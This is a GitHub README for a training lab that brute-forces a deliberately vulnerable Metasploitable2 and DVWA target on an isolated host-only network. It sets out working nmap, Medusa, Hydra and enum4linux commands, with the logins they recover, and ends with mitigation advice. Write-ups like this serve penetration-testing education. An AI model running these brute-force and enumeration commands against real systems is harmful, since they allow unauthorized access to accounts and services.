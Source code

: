 # 🧠 Cybersecurity Challenge - [Brute Force Attack with Kali Linux and Medusa and other tools]...

> Full documentation of steps, evidence and scripts used in this cybersecurity challenge.

---

## 📋 Table of Contents...
- [🧩 Challenge Description](#-challenge-description)
- [🎯 Objectives](#-objectives)
- [🧪 Environment](#-environment)
- [⚙️ Steps Performed](#-steps-performed)
- [🖼️ Evidence (Screenshots)](#-evidence-screenshots)
- [🧰 Scripts & Tools](#-scripts--tools)
- [🏁 Conclusion](#-conclusion)
- [👨‍💻 Author](#-author)
---

## 🧩 Challenge Description...
Implement, document, and share a practical project using Kali Linux and some tools such as Medusa, Hydra, NMap and Enum4Linux, along vulnerable environments (for example, Metasploitable 2 and DVWA), to simulate brute-force attack scenarios and practice mitigation measures.

---

## 🎯 Objectives...
- [ ] Discover active hosts...  
- [ ] Enumerate ports and services...  
- [ ] Identify and exploit weak authentication via Medusa...  
- [ ] Demonstrate privilege escalation paths...  
- [ ] Document prevention and mitigation measures...

---

## 🧪 Environment...
We use VirtualBox with two VMs, Kali Linux and Metasploitable2, on a Host-Only network for isolation and repeatability.

**Minimum requirements...**  
- Kali Linux VM
- Metasploitable2 VM
- VirtualBox installed

**Quick setup steps...**  
1. Create two VMs in VirtualBox, one Kali and one Metasploitable2...  
2. In each VM → Settings → Network, set **Adapter 1: Host-Only Adapter**...  
3. Optionally, we can assign static IPs or rely on Host-Only DHCP, e.g., `192.168.56.10` (Kali), `192.168.56.101` (Metasploitable2)...  
4. From Kali, verify connectivity:  
   ```bash
   ping -c 3 192.168.56.101

## ⚙️ Steps Performed
1. Find a Target Host IP Address, using nmap, with this command we can scan from 192.168.56.100 to 105 IP interval to find alive hosts and write the result into a file scan.txt.
   > nmap -v -sn 192.168.56.100-105 > scan.txt

2. After that, we can have a full report from the desired host with all services running, each with their respective version.
   > nmap -sV 192.168.56.101 | sed -n '/^Nmap scan report for 192\.168\.56\.101/,/^MAC Address:/p' > report.txt

3. Creating USER and PASS lists:
   On this lab, we will be creating simple lists to use on our simulation.

USERS list:
> echo -e "user\nmsfadmin\admin\nroot" > users.txt

PASSWORD list:
> echo -e "123456\npassword\nquery\nmsfadmin" > pass.txt

4. Using MEDUSA to check FTP service vulnerability:

In this case we can use our lists to brute force access on FTP service with MEDUSA.
> medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
> 
> 2025-10-13 10:18:13 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
> ...more on SCREENSHOTS folder

5. Using HYDRA to brute force Web Form.

Now we have another scenary, a DVWA WEB FORM and we will try to pass.

First we'll access http://192.168.56.101/dvwa/login.php

Now using other wordlists we can use HYDRA to check it out.
>hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form \
 "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 6 -V

6. Password SPRAYING and Enum4Linux

Enum4Linux is a good tool to enumerate services from a Host.

> enum4linux -a 192.168.56.101 > enum4out.txt


7. Using MEDUSA to find the Key for a smbnt service.
   
> medusa -h 192.168.56.101 -U users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
2025-10-13 10:52:57 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]  ...more on SCREENSHOTS folder

Now we can check if it's the right one.

>smbclient -L 192.168.56.101 -U msfadmin


## 🖼️ Evidence (Screenshots)

*** More on Screenshots folder ***


## 🧰 Scripts & Tools
Virtual Box | https://www.virtualbox.org/
Metaspoitable2 | https://www.rapid7.com/products/metasploit/metasploitable/
Kali Linux | https://www.kali.org/
Medusa | https://www.kali.org/tools/medusa/
Enum4Linux | https://www.kali.org/tools/enum4linux/
Hydra | https://www.kali.org/tools/hydra/
nMap | https://nmap.org/ | https://www.kali.org/tools/nmap/


## 🏁 Conclusion

The lab revealed clear security gaps... Default and weak passwords were found... Services exposed to common networks made access easier... Lack of audits and monitoring increased risk...


Practical mitigations:

1. Enforce strong password policies and credential management via tools (SSM, vault).

2. Stop exposing unnecessary services to public networks, use segmentation and VPNs.

3. Restrict services to VLANs and strict firewall rules.

4. Run regular configuration audits and pentests, fix critical findings immediately.

5. Continuous monitoring and anomaly detection (SIEM/EDR), with alerts and response playbooks.

6. Maintain asset inventory and review/remove privileged or stale accounts.

7. Require MFA for all admin and sensitive service access.

## 👨‍💻 Author

Renato de Castro
Developer / Security Enthusiast.

